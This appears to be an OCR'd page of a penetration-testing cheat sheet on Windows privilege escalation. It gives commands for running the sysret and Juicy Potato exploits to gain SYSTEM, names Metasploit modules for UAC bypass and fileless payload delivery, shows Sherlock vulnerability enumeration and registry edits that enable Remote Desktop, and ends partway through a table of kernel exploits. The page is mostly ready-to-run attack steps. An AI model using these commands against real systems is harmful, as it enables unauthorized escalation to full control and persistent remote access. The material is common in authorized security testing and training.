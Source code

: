 * [sysret](https://github.com/shjalayeri/sysret) exploit
``` bat
:: find a running system-level process and grab its PID
tasklist

:: run exploit specifying system-level process PID
.\sysret.exe -pid <pid>
```

* [Juicy Potato](https://github.com/ohpe/juicy-potato) for pivoting from Windows Service Accounts to SYSTEM
```bat
:: if our shell has SeImpersonate or SeAssignPrimaryToken privileges from `whoami /priv`, we can escalate
.\JuicyPotato.exe -t * -p <cmdtorun> -l <comserverlistenport>
                     ^
                     |__ modify this based on which privielge(s) you have
```

* Unattended install enumeration: Metasploit's `post/windows/gather/enum_unattend`

* Bypass UAC: Metasploit's `use exploit/windows/local/bypassuac`

* Launch a payload remotely through a Windows service without dropping a binary: Metasploit's `use exploit/multi/script/web_delivery`

* Detecting vulnerabilities with [Sherlock](https://github.com/rasta-mouse/Sherlock); [Watson](https://github.com/rasta-mouse/Watson) and [Seatbelt](https://github.com/GhostPack/Seatbelt) may also be worth exploring but they don't provide compiled binaries
```posh
# transfer Sherlock.ps1 to your target, import it, and run the vuln search
Import-Module Sherlock
Get-Command -module Sherlock
Find-AllVulns
```

* Enabling Remote Desktop
```bat
:: enable rdp in the registry
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f

:: above requires 'Terminal Services' service to be started; this is default, but can be manually enabled with below
reg add HKLM\System\CurrentControlSet\Services\TermService /v Start /t REG_DWORD /d 0x00000003 /f
net start termservice
```

* Common Windows exploits (comprehensive table [here](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/))

  * Start by checking the patchlevel with below snippet, then reference the below table
```bat
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

| Vulnerability                                                                                            | Affected Systems |
| -------------------------------------------------------------------------------------------------------- | ---------------- |
| [Windows Vista / 7 UAC Bypass](https://www.exploit-db.com/exploits/15609/)                               | Windows Vista/2008 6.1.6000 x86 |
|                                                                                                          | Windows Vista/2008 6.1.6001 x86 |
|                                                                                                          | Windows 7 6.2.7600 x86 |
|                                                                                                          | Windows 7/2008 R2 6.2.7600 x64 |
| [afd.sys MS11-046](https://www.exploit-db.com/exploits/40564/)                                         | Windows XP SP3 x86 |
|                                                                                                          | Windows XP Pro SP2 x64 |
|                                                                                                          | Windows Server 2003 SP2 x86/x64 |